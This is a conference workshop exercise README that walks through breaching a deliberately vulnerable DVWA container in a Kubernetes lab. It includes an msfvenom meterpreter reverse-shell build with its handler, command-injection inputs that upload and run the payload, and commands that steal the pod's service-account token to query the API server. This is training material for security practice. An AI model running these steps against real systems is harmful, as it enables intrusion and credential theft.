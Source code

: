 # Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section](#shell) to pick it up at the shell.

Note you will still need to setup the container etc.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___

![Login1](Files/images/dvwa_login1.png)

- once logged in, scroll to the bottom and click the "Create / Reset DB" button to initialize the DB

![Login2](Files/images/dvwa_login2.png)

- When that task is complete, log back in as ___admin___ and ___password___

- continue to "MSF Setup" if you wish to breach the container via remote shell. 
- or skip down to the [Shell](#shell)

### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

# Setup remote shell
- from within the "DVWA" gui, locate the "file upload" button and click it.

![File Upload](Files/images/dvwa_file_upload1.png)

- you should have an ___msfvenom___ payload on your Desktop for earlier, upload it and take not of the destination.

![File Upload](Files/images/dvwa_file_upload2.png)

- now find the "" button so we can chmod and run the file we just uploaded.

![Exec Cmd](Files/images/dvwa_exec.png)

- first command should be:
``` 127.0.0.1;chmod 0777 /var/www/html/hackable/uploads/rshell ```

- second command should be:
``` 127.0.0.1;/var/www/html/hackable/uploads/rshell ```

- you should see a session start as soon as you run the command

![MSF Sessions](Files/images/msfconsole_sessions.png)

- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```
# Shell

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/




```




## Review:



## Clean up:

 [Return to schedule](../../Docs/SCHEDULE.md)